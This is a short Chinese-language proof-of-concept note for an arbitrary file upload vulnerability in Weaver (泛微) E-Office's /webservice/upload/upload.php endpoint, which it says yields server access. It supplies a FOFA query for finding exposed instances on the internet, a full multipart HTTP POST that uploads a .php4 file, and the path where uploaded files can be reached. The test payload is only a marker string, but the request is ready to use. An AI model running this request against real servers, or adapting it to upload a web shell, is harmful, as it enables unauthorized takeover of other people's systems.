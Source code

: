 ## 泛微-eoffice-webservice-file-upload任意文件上传漏洞

泛微/webservice/upload/upload.php接口存在任意文件上传漏洞，导致获取服务器权限。

## fofa

```
app="泛微-EOffice"
```

## poc

```
POST /webservice/upload/upload.php HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept-Encoding: gzip, deflate, br
Content-Type:multipart/form-data; boundary=--------------------------553898708333958420021355

----------------------------553898708333958420021355
Content-Disposition: form-data; name="file"; filename="qq_test.php4"
Content-Type: application/octet-stream

qqtest
----------------------------553898708333958420021355--
```

![image-20240613103552387](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406131035498.png)

文件路径`http://127.0.0.1\attachment\文件名`